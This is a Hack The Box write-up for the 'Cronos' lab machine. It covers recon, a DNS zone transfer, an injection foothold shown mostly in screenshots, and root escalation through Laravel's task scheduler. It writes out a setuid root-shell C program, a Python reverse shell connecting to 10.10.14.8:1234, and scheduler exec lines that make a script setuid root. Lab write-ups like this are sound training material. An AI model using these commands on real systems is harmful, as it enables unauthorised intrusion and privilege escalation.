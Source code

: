 # Cronos Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA cronos -T4 10.10.10.13``

![image](https://user-images.githubusercontent.com/123066149/230632139-e019a1c8-2d80-414b-bb28-239d838bca6e.png)

``nmap -p- -sV -T4 -oA fullcronos 10.10.10.13``

![image](https://user-images.githubusercontent.com/123066149/230632255-084b1257-7cbc-4367-b61b-68f62b8d71b3.png)

``gobuster dir -u http://10.10.10.13/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,pl,py,sh,html,txt,js -t 70``

# ${{\color{purple}Initial Foothold}}\ $

``dig axfr @10.10.10.13 cronos.htb``

![image](https://user-images.githubusercontent.com/123066149/230632494-8ed1b6e5-8abe-49b5-ab73-8974cef37bb8.png)

![image](https://user-images.githubusercontent.com/123066149/230632611-1b07d868-8f25-43da-9f48-d9b8eaaf5320.png)

![image](https://user-images.githubusercontent.com/123066149/230632844-5d3d1999-0749-43ce-9153-4873c12c8cdf.png)

![image](https://user-images.githubusercontent.com/123066149/230632973-881eb81c-a7b9-4313-a1cd-71e326875107.png)

# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/230633225-5b52b6be-ab7b-4390-8bd7-b87555440e04.png)

### Don't forgot to encode with ``ctrl+U`` the payload :

![image](https://user-images.githubusercontent.com/123066149/230633562-74667d5f-4c6d-48cb-ab3f-bf3e057a6101.png)

![image](https://user-images.githubusercontent.com/123066149/230634467-6072d929-9c0c-4b1f-80dd-7ac0fae943e9.png)


# ${{\color{purple}Privilege Escalation}}\ $

### After several tests :

![image](https://user-images.githubusercontent.com/123066149/230634694-6920625d-281e-49c5-a687-4fb1b9372c2f.png)

![image](https://user-images.githubusercontent.com/123066149/230634779-11fe97a2-10f1-42f5-be3f-c7e665cef787.png)

![image](https://user-images.githubusercontent.com/123066149/230634825-5993b949-ca7f-4348-9740-615a00dd30e4.png)

``laravel create scheduling command``

![image](https://user-images.githubusercontent.com/123066149/230634984-e44a88f4-e6a0-401c-a5df-4ad72dc7588f.png)

![image](https://user-images.githubusercontent.com/123066149/230635108-fa52df3f-05b4-45f4-8e63-5c10950b2ee5.png)

![image](https://user-images.githubusercontent.com/123066149/230635150-71e5ac77-1e4f-4119-884f-060caf575eb4.png)

``find / -name Kernel.php 2>/dev/null``

![image](https://user-images.githubusercontent.com/123066149/230635422-2611c03b-2640-45d1-a146-5c9703dd2e91.png)

### I tested this setuid program but whiout success :

![image](https://user-images.githubusercontent.com/123066149/230635650-2cc15c20-0baf-4f7c-b1b6-4edea017165c.png)

``int main(void)
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}``


``gcc setuid_binary.c -o setuid_exploit``

![image](https://user-images.githubusercontent.com/123066149/230635987-e16b47d9-6485-464a-b0a5-d279f7da55b9.png)


``import socket,subprocess,os``

``s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)``

``s.connect(("10.10.14.8",1234))``

``os.dup2(s.fileno(),0)``

``os.dup2(s.fileno(),1)``

``os.dup2(s.fileno(),2)``

``import pty``

``pty.spawn("sh")``

![image](https://user-images.githubusercontent.com/123066149/230636554-50985f6e-9dc2-444a-9e95-74042e4afa72.png)

``$schedule->exec('ping -c 2 10.10.14.8')->everyMinute();``

``$schedule->exec('chown root:root /tmp/exploit.py; chmod 4755 /tmp/exploit.py')->everyMinute();``

``$schedule->exec('/usr/bin/python /tmp/exploit.py')->everyMinute();``	

![image](https://user-images.githubusercontent.com/123066149/230636977-b70f2739-bb25-411d-9a3c-81b9995d2964.png)


# ${{\color{purple}Points of Improvement}}\ $

* When port 53 is open you need to do more testing on the DNS!!!
* Other priv esc to watch : - ``unixprivesc.sh``  - ``linuxpvrichecker.py``
* Don't forget to encode the payload in burp
* In this case it was not possible to run a rev shell in the priv esc don't hesitate to run a complete program
